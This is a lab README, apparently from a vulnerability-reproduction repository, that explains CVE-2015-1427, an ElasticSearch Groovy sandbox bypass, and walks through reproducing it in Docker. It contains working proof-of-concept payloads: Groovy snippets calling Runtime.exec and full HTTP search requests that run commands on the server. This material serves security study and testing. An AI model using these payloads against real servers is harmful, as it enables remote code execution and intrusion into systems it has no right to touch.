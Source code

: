 # ElasticSearch Groovy Sandbox Bypass and Remote Code Execution (CVE-2015-1427)

[中文版本(Chinese version)](README.zh-cn.md)

ElasticSearch is a distributed, RESTful search and analytics engine.

ElasticSearch versions prior to 1.3.8 and 1.4.3 contain a vulnerability in the Groovy scripting engine that allows attackers to bypass the sandbox protection and execute arbitrary code on the server.

After [CVE-2014-3120](../CVE-2014-3120/), ElasticSearch changed its default dynamic scripting language to Groovy and added a sandbox. However, dynamic language execution remained enabled by default. This vulnerability involves:

1. A sandbox bypass
2. A Groovy code execution vulnerability

ElasticSearch supports using "sandboxed" Groovy language as a dynamic scripting engine. However, the sandbox implementation was insufficient. Two methods for command execution were discovered:

1. Lupin's method: Bypass the Java sandbox using reflection
2. Tang3's method: Use Groovy language features to execute commands directly, without using Java

Based on these approaches, we have two different POCs.

Java sandbox bypass method:

```groovy
java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("id").getText()
```

Groovy direct command execution method:

```groovy
def command='id';def res=command.execute().text;res
```

References:

- <http://jordan-wright.com/blog/2015/03/08/elasticsearch-rce-vulnerability-cve-2015-1427/>
- <https://github.com/XiphosResearch/exploits>
- <http://cb.drops.wiki/drops/papers-5107.html>
- <http://cb.drops.wiki/drops/papers-5142.html>

## Vulnerability Reproduction

Execute the following commands to start a 1.4.2 version ElasticSearch server:

```
docker compose up -d
```

Since querying requires at least one document in the index, first send the following request to add data:

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "test"
}
```

Then send a request containing the payload to execute arbitrary commands:

```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 156

{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}
```

The command execution result will be returned in the response:

![](1.png)
